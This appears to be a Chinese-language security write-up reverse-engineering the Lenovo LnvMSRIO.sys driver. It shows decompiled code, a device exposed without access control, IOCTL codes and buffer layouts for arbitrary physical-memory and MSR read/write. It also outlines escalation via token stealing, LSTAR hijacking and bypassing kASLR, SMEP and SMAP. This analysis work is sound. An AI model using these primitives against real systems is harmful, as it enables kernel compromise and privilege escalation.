








## 前言

驱动信息，联想的，实际安装需要联想的硬件信息。




## 漏洞发现


### 从入口定位：DriverEntry 到设备创建

Windows 内核驱动的分析起点始终是 `DriverEntry` 函数，它相当于用户态程序的 `main()`。在本驱动中，`DriverEntry`（`0x140002c40`）非常简短，仅调用了两个子函数。第一个是 `sub_140007000`（KMDF 框架的内部初始化），第二个是 `sub_140002C6C`，后者完成了 KMDF 版本绑定并进一步调用 `sub_1400011B0`——这才是真正创建设备对象和注册 IRP 处理函数的核心逻辑。

在分析驱动时，一个实用的技巧是：遇到大量以 `Wdf` 开头的函数调用（如 `WdfVersionBind`），可以直接跳过，这些是 KMDF 框架的模板代码。真正需要关注的是接收 `DRIVER_OBJECT` 参数、并且调用了 `IoCreateDevice` 或设置了 `MajorFunction[]` 数组的函数。在本驱动中，这个函数就是 `sub_1400011B0`。借助IDA-PRO-MCP可以快速协助定位目标点。





以下是 IDA Pro 反编译得到的 `sub_1400011B0` 完整代码，其中包含了设备创建、IRP 分发函数注册、符号链接创建等关键操作：

```c
__int64 __fastcall sub_1400011B0(struct _DRIVER_OBJECT *a1, __int64 a2)
{
  NTSTATUS v4;
  PDEVICE_OBJECT DeviceObject = 0;
  struct _UNICODE_STRING DestinationString;
  struct _UNICODE_STRING SymbolicLinkName;

  sub_140001370(a1);                                              // Minifilter 初始化
  RtlInitUnicodeString(&DestinationString, L"\\Device\\WinMsrDev");
  v4 = IoCreateDevice(a1, 0, &DestinationString, 0x9C40u, 0x100u, 0, &DeviceObject);
  if ( v4 >= 0 )
  {
    a1->MajorFunction[0]  = (PDRIVER_DISPATCH)sub_140001580;      // IRP_MJ_CREATE
    a1->MajorFunction[2]  = (PDRIVER_DISPATCH)sub_140001580;      // IRP_MJ_CLOSE
    a1->MajorFunction[14] = (PDRIVER_DISPATCH)sub_140001580;      // IRP_MJ_DEVICE_CONTROL
    a1->DriverUnload = (PDRIVER_UNLOAD)sub_140002300;

    RtlInitUnicodeString(&SymbolicLinkName, L"\\DosDevices\\WinMsrDev");
    v4 = IoCreateSymbolicLink(&SymbolicLinkName, &DestinationString);
    if ( v4 < 0 )
      IoDeleteDevice(DeviceObject);
  }
  return (unsigned int)v4;
}
```

从这段代码中可以提取出三个关键信息：

- 设备名称为 `\\Device\\WinMsrDev`，通过符号链接 `\\DosDevices\\WinMsrDev` 暴露给用户态（用户态路径为 `\\.\WinMsrDev`）
- `IRP_MJ_CREATE`（0）、`IRP_MJ_CLOSE`（2）、`IRP_MJ_DEVICE_CONTROL`（14）三个 IRP 类型都指向同一个处理函数 `sub_140001580`
- 设备类型为 `0x9C40`（自定义设备类型），设备特征为 `0x100`（`FILE_DEVICE_SECURE_OPEN`）

### 符号链接与访问控制缺失

在 Windows 驱动开发中，设备对象的访问控制由安全描述符（Security Descriptor）决定。安全描述符定义了"哪些用户/组可以打开这个设备"，其内容通常以 SDDL 字符串的形式编写（例如 `L"D:P(A;;GA;;;SY)(A;;GA;;;BA)"` 表示仅 SYSTEM 和 Administrators 可访问）。如果驱动在创建设备时没有设置安全描述符，设备将使用系统默认 ACL，这意味着任何管理员级别的进程都可以打开并使用它。

本驱动使用的是 `IoCreateDevice` 的六参数版本，其参数布局如下：

```c
v4 = IoCreateDevice(a1, 0, &DestinationString, 0x9C40u, 0x100u, 0, &DeviceObject);
//                   │   │      │                │        │      │       │
//                   │   │      │                │        │      │       └─ 输出：设备对象
//                   │   │      │                │        │      └─ Exclusive=FALSE（允许多进程同时打开）
//                   │   │      │                │        └─ DeviceCharacteristics=0x100
//                   │   │      │                └─ DeviceType=0x9C40（自定义类型）
//                   │   │      └─ 设备名 "\\Device\\WinMsrDev"
//                   │   └─ DeviceExtensionSize=0
//                   └─ DRIVER_OBJECT
```

注意这里**没有任何与安全描述符相关的参数**。作为对比，一个有访问控制的驱动通常采用以下两种方式之一：

```c
// 方式一：使用 IoCreateDeviceSecure，直接传入 SDDL 字符串
IoCreateDeviceSecure(DriverObject, 0, &DeviceName,
                     FILE_DEVICE_UNKNOWN, FILE_DEVICE_SECURE_OPEN,
                     FALSE,
                     &SDDLString,     // ← 安全描述符字符串
                     &DeviceObject);

// 方式二：先建设备，再手动设置安全描述符
IoCreateDevice(...);
ObSetSecurityObjectInfo(&DeviceObject, SecurityDescriptor);
```

对 `sub_1400011B0` 进行完整审查后，可以确认以下几点事实：

- 函数内部不存在 `PSECURITY_DESCRIPTOR` 类型的变量，也没有任何 SDDL 字符串常量
- 没有调用 `IoCreateDeviceSecure`、`RtlCreateSecurityDescriptor`、`ObSetSecurityObjectInfo` 等安全相关 API
- `IoCreateDevice` 调用之后，没有追加任何安全描述符设置代码，而是直接跳到 `MajorFunction[]` 注册
- 随后创建的符号链接 `\\DosDevices\\WinMsrDev` 会继承设备的 DACL——设备没有自定义 DACL，符号链接同样没有

结论是明确的：`IoCreateDevice` 前后均无任何 `SecurityDescriptor` 或 `SDDL` 相关代码，该设备链接不存在访问控制，任何能获取设备句柄的进程均可直接发送 IOCTL 请求。

> **值得注意的对比**：同一个驱动中的 Minifilter 通信端口（`\\LnvMiniFilterDriverPort`，在 `sub_140001370` 中创建）却正确使用了 `FltBuildDefaultSecurityDescriptor(&SecurityDescriptor, 0x1F0001)` 来限制访问。这意味着开发者具备安全描述符的意识，但仅在 Minifilter 端口上实施了保护，而放任暴露高危操作的 IOCTL 设备处于无保护状态——这正是该驱动成为 BYOVD 目标的根本原因。

### IOCTL 分发函数结构解析

确定了设备可被任意访问后，下一步是分析 IOCTL 分发函数 `sub_140001580`（位于 `0x140001580`，共 1240 字节），理解用户态程序能通过这个"没有保安的门"执行哪些操作。

该函数同时处理三种 IRP 类型，IDA Pro 反编译后的伪代码中存在大量被误识别的符号（如 `CAMSchedule::GetEvent` 实际上是 `IoGetCurrentIrpStackLocation`）。下表列出了伪代码中的变量与其真实内核结构体字段之间的对应关系，这是阅读驱动 IRP 分发函数时必须掌握的基础知识：

| 伪代码表达 | 真实含义 | 说明 |
|---|---|---|
| `a2` | `PIRP Irp` | IRP 请求包指针 |
| `Event` | `IO_STACK_LOCATION *IrpSp` | 当前 IRP 栈位置 |
| `*(_BYTE *)Event` | `IrpSp->MajorFunction` | IRP 主功能号（0=Create, 2=Close, 14=DeviceControl） |
| `Event[6]`（偏移 24） | `IrpSp->Parameters.DeviceIoControl.IoControlCode` | IOCTL 控制码 |
| `Event[4]`（偏移 16） | `IrpSp->Parameters.DeviceIoControl.InputBufferLength` | 输入缓冲区长度 |
| `Event[2]`（偏移 8） | `IrpSp->Parameters.DeviceIoControl.OutputBufferLength` | 输出缓冲区长度 |
| `*(_QWORD *)(a2 + 24)` | `Irp->AssociatedIrp.SystemBuffer` | 用户数据缓冲区（METHOD_BUFFERED 模式） |
| `*(_QWORD *)(a2 + 56)` | `Irp->IoStatus.Information` | 返回给用户的数据字节数 |
| `*(_DWORD *)(a2 + 48)` | `Irp->IoStatus.Status` | 返回状态码 |
| `IofCompleteRequest(a2, 0)` | 完成 IRP 请求 | 通知 I/O 管理器处理完毕 |

基于以上映射关系，`sub_140001580` 的逻辑结构可以清晰地分为三段：

**第一段——IRP 类型分发**：函数首先读取 `MajorFunction`，当值为 0（`IRP_MJ_CREATE`）时递增引用计数并返回成功，值为 2（`IRP_MJ_CLOSE`）时递减引用计数，两者都不执行实质操作。只有当值为 14（`IRP_MJ_DEVICE_CONTROL`）时，才会进入真正的 IOCTL 处理逻辑。

**第二段——IOCTL 控制码分发**：这是函数的核心部分。变量 `v3 = Event[6]` 取出 IOCTL 控制码，随后通过一系列 `if-else` 和 `switch` 语句将不同的控制码路由到对应的处理子函数。IDA 中显示的部分控制码为负数（如 `-1673486072`），这是因为 32 位无符号整数被解释为有符号数所致，加上 `0x100000000` 即可还原为十六进制形式（如 `0x9C40A108`）。

**第三段——统一收尾**：所有分支最终汇聚到 `LABEL_52`，将处理结果写入 `IoStatus` 并调用 `IofCompleteRequest` 完成 IRP。



通过整理所有 IOCTL 控制码与对应处理函数的映射关系，得到以下完整的分发表。所有 IOCTL 均使用 `METHOD_BUFFERED` 传输方式（控制码低 2 位为 0），设备类型为 `0x9C40`：

| IOCTL 控制码 | 访问权限 | 处理函数 | 底层操作 | 风险等级 |
|---|---|---|---|---|
| `0x9C402000` | ANY | 内联 | 返回版本号 `0x1000000` | 低 |
| `0x9C402004` | ANY | 内联 | 返回引用计数 | 低 |
| `0x9C402084` | ANY | `sub_140002140` | `__readmsr` 读取 MSR | **严重** |
| `0x9C402088` | ANY | `sub_140002680` | `__writemsr` 写入 MSR | **严重** |
| `0x9C40208C` | ANY | `sub_140002270` | `__readpmc` 读取 PMC | 中 |
| `0x9C402090` | ANY | 内联 | `__halt()` CPU 停机 | **高** |
| `0x9C4060CC` | READ | `sub_140001F10` | `__inbyte` I/O 端口读（字节） | 高 |
| `0x9C4060D0` | READ | `sub_140001F10` | `__inword` I/O 端口读（字） | 高 |
| `0x9C4060D4` | READ | `sub_140001F10` | `__indword` I/O 端口读（双字） | 高 |
| `0x9C406104` | READ | `sub_140001FE0` | `MmMapIoSpace` 物理内存读 | **严重** |
| `0x9C406144` | READ | `sub_1400021D0` | `HalGetBusDataByOffset` PCI 配置读 | 高 |
| `0x9C40A0D8` | WRITE | `sub_140002440` | `__outbyte` I/O 端口写（字节） | 高 |
| `0x9C40A0DC` | WRITE | `sub_140002440` | `__outword` I/O 端口写（字） | 高 |
| `0x9C40A0E0` | WRITE | `sub_140002440` | `__outdword` I/O 端口写（双字） | 高 |
| `0x9C40A108` | WRITE | `sub_140002500` | `MmMapIoSpace` 物理内存写 | **严重** |
| `0x9C40A148` | WRITE | `sub_140002700` | `HalSetBusDataByOffset` PCI 配置写 | 高 |

其中最危险的是 `0x9C406104`/`0x9C40A108`（任意物理内存读写）和 `0x9C402084`/`0x9C402088`（任意 MSR 读写），下面逐一展开分析。

### 漏洞点一：任意物理内存读写

物理内存读写功能分别由 `sub_140001FE0`（读，IOCTL `0x9C406104`）和 `sub_140002500`（写，IOCTL `0x9C40A108`）实现，两者逻辑高度对称，核心都围绕 `MmMapIoSpace` 展开。



以写入函数 `sub_140002500` 为例，用户传入的输入缓冲区被解释为 `PHYSICAL_ADDRESS` 数组（本质是 `LARGE_INTEGER` 结构，每个元素 8 字节），其内存布局如下：

```
偏移 0x00 (8字节)  a1[0]          目标物理地址
偏移 0x08 (4字节)  a1[1].LowPart  写入宽度（1=字节, 2=字, 8=四字）
偏移 0x0C (4字节)  a1[1].HighPart 写入数量
偏移 0x10 (变长)   &a1[2]         实际写入数据（Payload）
```

总写入字节数由 `NumberOfBytes = a1[1].HighPart * a1[1].LowPart` 计算得出，即"宽度 × 数量"。

该函数的执行流程分为三步：

```c
// 第一步：将用户指定的物理地址映射为内核可访问的虚拟地址
NumberOfBytes = a1[1].HighPart * a1[1].LowPart;
BaseAddress = MmMapIoSpace(*a1, NumberOfBytes, MmNonCached);

// 第二步：按指定宽度将用户数据拷贝到映射区域
switch (LowPart) {
    case 1: sub_1400023E0(BaseAddress, &a1[2], count); break;   // 按 byte 写
    case 2: sub_140002410(BaseAddress, &a1[2], count); break;   // 按 word 写
    case 8: sub_140001EB0(BaseAddress, &a1[2], count); break;   // 按 qword 写
}

// 第三步：解除映射
MmUnmapIoSpace(BaseAddress, NumberOfBytes);
```

`MmMapIoSpace` 是 Windows 内核提供的合法 API，其正常用途是将硬件设备的物理地址范围（如显卡显存、BIOS 映射区）映射到内核虚拟地址空间，以便驱动程序与硬件通信。然而，本驱动将**物理地址、映射大小、写入数据**三个参数全部交由用户态控制，且没有施加任何形式的校验——既没有地址范围白名单，也没有调用者身份验证。只要用户态程序能打开设备句柄，就可以映射并读写任意物理内存。



上图清晰地展示了这一攻击过程的三个核心阶段。左侧是攻击者通过 `DeviceIoControl` 传入的数据结构（InputBuffer），中间是物理内存中的目标区域，右侧是 `MmMapIoSpace` 建立映射后生成的内核虚拟地址。攻击者不直接操作物理内存，而是指挥驱动分两步完成：首先调用 `MmMapIoSpace` 在物理内存的"金库"墙上开一扇门（虚拟地址映射），然后通过 `Memcpy` 将恶意数据注入这扇门。由于虚拟地址与物理地址在硬件层面已被强行绑定，对虚拟地址的写入会 100% 穿透到底层物理内存。

获得"任意物理内存读写"能力后，攻击者可以实施多种提权手法：

- **进程令牌篡改（Token Stealing）**：在 Windows 中，每个进程都有一个代表其权限级别的令牌对象（Token），挂载在 `EPROCESS` 结构体中。攻击者通过物理内存扫描定位当前低权限进程和 SYSTEM 进程的 Token 物理地址，然后将 SYSTEM 的令牌数据覆盖到自己的进程上，瞬间完成从普通用户到 SYSTEM 的提权。
- **页表篡改（Page Table Manipulation）**：攻击者修改物理内存中的页表项（PTE），将受保护的内核代码页面标记为可写，随后注入恶意代码，实现 Rootkit 级别的持久化隐藏。这种方式能绕过内核代码签名策略（PatchGuard）。

需要指出的是，在较新版本的 Windows 内核中，`MmMapIoSpace` 已被限制——过去可用于将任意物理地址转换为虚拟地址的页表项映射功能不再被允许。由于无法直接访问页表项，关键结构（如 `EPROCESS`）的物理地址需要通过其他手段获取，暴力搜索则可能导致蓝屏（BSOD），这使得利用变得更为复杂但不代表不可能。

### 漏洞点二：任意 MSR 寄存器读写

MSR（Model Specific Register，模型特定寄存器）是 x86/x64 架构中仅从 Ring-0 层可访问的控制寄存器，主要用于 CPU 特性控制、性能监控和调试。MSR 读写功能分别由 `sub_140002140`（读，IOCTL `0x9C402084`）和 `sub_140002680`（写，IOCTL `0x9C402088`）实现。



以写入函数 `sub_140002680` 为例，其实现极为简洁——仅一行核心操作：

```c
__writemsr(*(_DWORD *)a1, *(_QWORD *)(a1 + 4));
//         │                │
//         │                └─ 偏移 +4，8字节：要写入的值（用户控制）
//         └─ 偏移 +0，4字节：MSR 索引号（用户控制）
```

用户传入的 12 字节数据包结构如下：

| 偏移 | 长度 | 含义 |
|---|---|---|
| +0 | 4 字节 (DWORD) | MSR 寄存器索引号——指定要修改哪个 MSR |
| +4 | 8 字节 (QWORD) | 要写入的数据值 |

与物理内存读写一样，MSR 索引和写入值均由用户完全控制，代码中没有白名单过滤、没有范围检查、也没有调用者身份验证。攻击者可以填写 `0x00000000` 到 `0xFFFFFFFF` 之间的任意 MSR 编号。

根据英特尔文档，MSR 寄存器控制着 CPU 的极低层级行为。其中最著名的是 **LSTAR MSR**（索引 `0xC0000082`），它存储了 `KiSystemCall64()` 函数的地址。每当用户态程序触发系统调用（syscall）时，CPU 会跳转到 LSTAR 指向的地址执行 Ring-0 级别的代码。如果攻击者能覆写 LSTAR MSR，就能将所有系统调用重定向到自己控制的内存区域，从而获得无限制的内核代码执行能力。



具体而言，MSR 写入能力可导致的攻击场景包括：

- **系统调用劫持（Syscall Hijacking）**：覆写 `IA32_LSTAR`（`0xC0000082`），将合法的 `KiSystemCall64` 地址替换为恶意 shellcode 地址，此后所有系统调用都会先执行攻击者的代码。需要注意的是，覆写 LSTAR 会扰乱正常的系统调用处理，因此在获得代码执行后必须尽快恢复原始值以维持系统稳定。
- **安全特性禁用**：通过修改 CR4 相关的 MSR 位，禁用 SMEP（Supervisor Mode Execution Prevention）和 SMAP（Supervisor Mode Access Prevention）等安全机制，使内核态可以执行用户态代码或访问用户态内存。
- **内核补丁保护绕过（PatchGuard Bypass）**：修改相关配置使 PatchGuard 的安全校验失效。

### 漏洞判断方法论

在逐个分析了本驱动的具体漏洞后，可以将判断过程抽象为一套可复用的方法论。每次进入一个 IOCTL 处理子函数时，依次回答以下四个问题即可快速判断其安全性：

1. **用户能否控制输入参数**（地址、索引、大小、数据）？如果能，则继续判断；如果参数完全由驱动内部生成，则该分支可能安全。
2. **是否存在对输入的范围或白名单检查**？如果没有——即用户传入任意值都会被直接使用——则该分支存在漏洞。
3. **调用的内核 API 本身是否具备高权限操作能力**？参照下表判断：
4. **是否验证了调用者的身份或权限**？如果没有，则任何能打开设备句柄的进程都能触发该漏洞。

| 内核 API | 功能 | 风险等级 |
|---|---|---|
| `MmMapIoSpace` | 将物理地址映射为内核虚拟地址 | **严重**——可读写任意物理内存 |
| `__readmsr` / `__writemsr` | 读写 CPU 模型特定寄存器 | **严重**——可修改 CPU 安全配置 |
| `__inbyte` / `__outbyte` / `__inword` / `__outword` 等 | 读写硬件 I/O 端口 | **高**——直接操作硬件 |
| `HalGetBusDataByOffset` / `HalSetBusDataByOffset` | 读写 PCI 配置空间 | **高**——修改设备配置 |
| `__halt` | 停机指令 | **高**——立即蓝屏 |
| `__readpmc` | 读取性能计数器 | **低**——信息泄露风险 |
| `DbgPrint` / `DbgPrintEx` | 调试输出 | 无风险 |

本驱动中所有标记为"严重"和"高"的 IOCTL 处理函数，都同时满足上述四个条件中的前三项（用户可控 + 无范围检查 + 高权限 API），且均未实施调用者身份验证。用公式表达即：**用户可控输入 + 无范围校验 + 危险内核 API + 无身份验证 = 可利用漏洞**。

作为对比，假设本驱动采取了安全编码实践，其代码应当如下所示：

```c
// 安全写法示例（本驱动未采用）

// 1. MSR 索引白名单
if (msr_index != ALLOWED_MSR_1 && msr_index != ALLOWED_MSR_2)
    return STATUS_ACCESS_DENIED;

// 2. 物理地址范围限制
if (physical_address < MIN_ALLOWED_ADDR || physical_address > MAX_ALLOWED_ADDR)
    return STATUS_ACCESS_DENIED;

// 3. 调用者身份验证
if (!IsTrustedCaller())
    return STATUS_ACCESS_DENIED;

// 4. 通过以上检查后才执行操作
__writemsr(msr_index, value);
```

本驱动以上四项保护措施均未实施，这使得它成为攻击者理想的 BYOVD（Bring Your Own Vulnerable Driver）工具——一个合法签名、功能完整、且毫无防护的内核级"代理人"。


## 利用构造

前文分析了 LnvMSRIO.sys 提供的四个危险 IOCTL 基元——任意物理内存读写和任意 MSR 读写。然而，拥有这些基元只是第一步。从"能读写内核资源"到"实际获得 SYSTEM 权限"，中间还需要跨越 Windows 操作系统层层叠加的安全机制。本节将结合 Quarkslab 的[研究博客](https://blog.quarkslab.com/exploiting-lenovo-driver-cve-2025-8061.html)完整展示这条利用链是如何被构建的。

### 从漏洞到利用：必须克服的 Windows 安全机制

"有漏洞"和"能利用"之间往往隔着巨大的鸿沟。现代 Windows 内核实现了多层级的安全防护，即使攻击者拿到了任意内核读写的"钥匙"，每一层防护都会成为利用链上的一道关卡。在本驱动的利用场景中，需要面对以下六道屏障：

| # | 安全机制 | 全称 | 它防止什么 | 能否绕过 | 绕过方式 |
|---|---|---|---|---|---|
| 1 | **DSE** | Driver Signature Enforcement | 加载未签名的内核驱动 | 不需要绕 | 驱动本身是联想合法签名的 |
| 2 | **kASLR** | Kernel Address Space Layout Randomization | 每次启动随机化内核基址，防止攻击者定位内核代码 | 可绕过 | MSR 读 LSTAR 泄漏 `KiSystemCall64()` 地址 |
| 3 | **SMEP** | Supervisor Mode Execution Prevention | 禁止内核态执行用户态内存中的代码（CR4 第 20 位） | 可绕过 | ROP 链修改 CR4 寄存器，清空第 20 位 |
| 4 | **SMAP** | Supervisor Mode Access Prevention | 禁止内核态读写用户态内存（防止内核误访问用户页面） | 可绕过 | 设置 RFLAGS 的 AC 标志位 |
| 5 | **KPTI** | Kernel Page Table Isolation (kVAShadow) | 用户态和内核态使用独立的页表集 | 需手动关闭 | PoC 环境中关闭 kVAShadow |
| 6 | **HVCI** | Hypervisor-Enforced Code Integrity | 利用 CPU 虚拟化扩展阻止内核代码篡改 | **无法绕过** | 必须在环境中关闭 Core Isolation |

其中每一项的原理简要说明如下：

- **DSE**：Windows Vista 以后引入的机制，要求所有内核模式驱动必须通过微软认可的数字签名。本驱动拥有联想的合法签名，因此 DSE 不会阻止其加载。
- **kASLR**：每次系统启动时，`ntoskrnl.exe` 的加载基址会被随机化。攻击者需要知道内核代码的地址才能构建 ROP 链，而 kASLR 使这些地址在每次启动后都不同。
- **SMEP**：当 CPU 在 Ring-0（内核态）运行时，如果尝试执行标记为用户态（Ring-3）页面中的代码，CPU 会触发故障。这意味着即使攻击者让内核跳转到用户态的 shellcode，CPU 也会拒绝执行。
- **SMAP**：与 SMEP 类似，但针对的是数据访问而非代码执行。当 CPU 在 Ring-0 运行时，如果尝试读写用户态页面中的数据（例如读取 shellcode 中的立即数），CPU 会触发故障。不过，SMAP 可以通过设置 RFLAGS 寄存器中的 AC（Alignment Check）标志位来临时禁用。
- **KPTI**：为了缓解 Meltdown 等侧信道攻击，Windows 将用户态和内核态的页表完全隔离。这意味着即使利用 MSR 基元获得了内核地址，用户态代码也可能无法通过常规手段访问内核内存。
- **HVCI**：利用 Hyper-V 虚拟化，在更高的特权级别（Ring -1）监控 Ring-0 的代码完整性。即使攻击者成功修改了内核代码或禁用了 SMEP，HVCI 也能检测并阻止执行。这是**唯一无法通过软件手段绕过的防线**。

